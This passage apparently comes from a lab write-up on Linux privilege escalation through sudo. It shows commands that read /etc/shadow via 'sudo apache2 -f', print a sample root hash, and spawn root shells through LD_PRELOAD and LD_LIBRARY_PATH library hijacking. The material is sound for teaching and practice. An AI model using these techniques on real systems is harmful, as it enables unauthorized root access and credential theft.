 ```
* (\*): a quick search on how to abuse sudo linux privilege escalation with apache2

* __Using apache Command__:

* sadly u cant get Shell and Cant edit system files.

* but using this u can view system files.

```bash 
sudo apache2 -f /etc/shadow
```

* Output is like this :

```
Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
```

* Sadly no Shell. But you manage to extract root hash now Crack hash in your machine. For Shadow Cracking click here for more.


## Task 7: Sudo - Environment Variables

* Sudo can be configured to inherit certain environment variables from the user's environment.

* Check which environment variables are inherited (look for the env_keep options):

```sudo -l```

* LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

* Create a shared object using the code located at /home/user/tools/sudo/preload.c:

```gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c```

* Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object:

```sudo LD_PRELOAD=/tmp/preload.so program-name-here```

* A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.

* Run ldd against the apache2 program file to see which shared libraries are used by the program:

```ldd /usr/sbin/apache2```

* Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:

```gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c```

* Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):

```sudo LD_LIBRARY_PATH=/tmp apache2```

* A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the library_path.c code could be changed to make it work.

```